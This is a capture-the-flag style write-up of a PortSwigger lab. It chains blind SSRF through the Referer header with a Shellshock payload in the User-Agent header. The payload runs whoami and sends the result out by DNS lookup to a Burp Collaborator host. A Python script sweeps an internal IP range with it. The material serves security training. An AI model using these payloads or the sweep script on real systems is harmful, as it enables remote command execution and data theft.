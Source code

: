 # Blind SSRF with Shellshock exploitation

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation), you'll learn: Blind SSRF with Shellshock exploitation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185609.png)

In here, we can view other products' details:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185632.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185651.png)

In `/product`, it has a `Referer` header, which can be tested for ***blind SSRF***.

**To do so, I'll:**

- Go to Burp Suite's Collaborator, and copy the payload:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185754.png)

- Add that payload in the `Referer` header, and send the request:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185851.png)

- Go back to Burp Suite's Collaborator, click "Pull now" to confirm the blind SSRF vulnerability:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185924.png)

As you can see, we received 2 DNS lookups, which means **the web application is indeed vulnerable to blind SSRF via the `Referer` header!**

Simply identifying a blind [SSRF vulnerability](https://portswigger.net/web-security/ssrf) that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

### Sweep internal IP address & Shellshock exploitation

Now, we can try to test the internal services are vulnerable to Shellshock or not.

> Shellshock is effectively a Remote Command Execution (RCE) vulnerability in BASH. The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. (From [OWASP Shellshock Vulnerability PDF](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf))

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301190730.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301190739.png)

Armed with above information, we can the following payload to try to **exploit Shellshock via blind SSRF in `Referer` and `User-Agent` header**:

**`User-Agent` header:**
```bash
() { :; }; /usr/bin/nslookup $(whoami).vbal3wg7zfqmnb0l7sp8wngzvq1ip9dy.oastify.com/
```

This payload will run OS command `nslookup` to query the Burp Collaborator's domain, with the `whoami` command's output appended to the subdomain.

**`Referer` header:**
```
http://192.168.0.x:8080
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301191755.png)

If we got a hit in Burp Suite's Collaborator, we confirm there's a internal service that's vulnerable to Shellshock.

**Now, I'll write a Python script to sweep all the internal services ranging from `192.168.0.1` to `192.168.0.254`:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

class Exploit:
    def __init__(self, URL):
        self.URL = URL

    def sendPayload(self, ShellshockPayload, internalIPAddress):
        header = {
            'User-Agent': ShellshockPayload,
            'Referer': internalIPAddress
        }

        requests.get(self.URL, headers=header)

def main():
    URL = 'https://0a59001003ff1aa3c1a521b300450093.web-security-academy.net/product?productId=1'
    exploit = Exploit(URL)

    print('[+] Sending Shellshock payload...')
    ShellshockPayload = "() { :; }; /usr/bin/nslookup $(whoami).547vw69hspjwgltv02iipx99o0utij68.oastify.com"
    print(f'[+] Payload: {ShellshockPayload}')
    for lastOctet in range(1, 255):
        internalIPAddress = f'http://192.168.0.{lastOctet}:8080'
        print(f'[*] Trying IP: {internalIPAddress}', end='\r')

        thread = Thread(target=exploit.sendPayload, args=(ShellshockPayload, internalIPAddress))
        thread.start()
        sleep(0.1)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/Portswigger-Labs/Server-Side-Request-Forgery)-[2023.03.01|19:36:48(HKT)]
└> python3 blind_ssrf_shellshock.py
[+] Sending Shellshock payload...
[+] Payload: () { :; }; /usr/bin/nslookup $(whoami).547vw69hspjwgltv02iipx99o0utij68.oastify.com
```

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301193844.png)

Nice! We have 2 DNS lookups, and successfully exfiltrated the OS username!!

Let's submit that!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301193912.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301193921.png)

# What we've learned:

1. Blind SSRF with Shellshock exploitation
